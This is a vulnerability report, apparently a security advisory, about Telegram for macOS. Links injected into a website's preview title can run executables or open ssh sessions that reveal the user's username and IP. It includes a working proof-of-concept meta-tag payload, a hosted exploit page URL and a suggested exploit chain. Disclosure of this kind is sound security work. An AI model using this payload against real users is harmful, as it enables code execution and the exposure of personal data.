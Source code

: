 **Summary**

In **Telegram for macOS v4.9.155353** (and below) URL parsing logic in Telegram for macOS platform allows running arbitrary executables and applications URI schemes via links injected into the website's preview.

**PoC**

1. Send a link to `exploit.html` - a regular HTML file with `<meta property="og:title" content="file://google.com/bin/sh ssh://google.com/x" />` tag
2. Website preview renders `file://google.com/bin/sh` and `ssh://google.com/x` as links
3. Click on the rendered links behaves as `NSWorkspace.open` util -> if points to executable -> code execution.
4. Click on `ssh://` link -> `Terminal.app` popups with an active ssh session disclosing user's OS username, ip and other details.

**Impact**

The bug could be used...
- to disclose info about user's machine -> OS username, IP, etc
- to run arbitrary executables and opening arbitrary files on OS
- to launch arbitrary applications via URI schemes

This bug could be chained with Quarantine issue to open downloaded quarantine-ignored files and chain this into running of attacker-supplied executable.

**Additional Details**

This bug also exists in iOS, PoC is the same. 
Impact possibly limited to URI schemes.

PoC URL -> https://telegram-file-link-1xfcjf27f.now.sh/exploit.html
